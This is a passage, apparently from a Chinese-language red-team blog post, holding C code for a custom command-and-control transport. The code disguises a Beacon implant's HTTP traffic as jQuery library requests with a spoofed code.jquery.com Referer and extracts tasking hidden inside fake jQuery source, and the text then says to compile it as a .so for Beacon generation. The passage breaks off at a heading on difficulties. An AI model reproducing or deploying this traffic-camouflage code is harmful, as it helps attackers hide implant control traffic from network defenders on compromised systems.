 ```
                        "Referer: http://code.jquery.com/\r\n"
                        "Connection: close\r\n"
                        "Content-Length: %d\r\n\r\n%s";

    id = cc2_rebind_http_post_send_param(id);
    reqData = cc2_rebind_http_post_send_param(reqData);

    char *postPayload = (char *) calloc(1, strlen(requestBody) + strlen(reqData) + 200);

    sprintf(postPayload, requestBody, "jquery-3.3.2.min.js", id, strlen(reqData), reqData);
    *outputData_len = strlen(postPayload);
    *outputData = (char *) calloc(1, *outputData_len);

    memcpy(*outputData, postPayload, *outputData_len);
    free(postPayload);
}

void cc2_rebind_http_get_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {
    char *start = "return-1},P=\"\r";
    char *end = "\".(o=t.documentElement";

    long long payload_len = 0;
    char *payload = find_payload(rawData, rawData_len, start, end, &payload_len);

    *outputData = cc2_rebind_http_recv_param(payload);
    *outputData_len = strlen(*outputData);
}

void cc2_rebind_http_post_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {
    char *start = "return-1},P=\"\r";
    char *end = "\".(o=t.documentElement";

    long long payload_len = 0;
    char *payload = find_payload(rawData, rawData_len, start, end, &payload_len);

    *outputData = cc2_rebind_http_recv_param(payload);
    *outputData_len = strlen(*outputData);
}


```

同样的编译成 so 文件，在生成 Beacon 时指定 so 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/TegOSv0yja6ecyyPNE0XGg8iaOA6gWRAUg0yuI9LANz1MpK2zkv911QwCIITYFEu0RJs96ybQF8KG0mdFLFa1HA/640?wx_fmt=png)

难点和疑问  

========
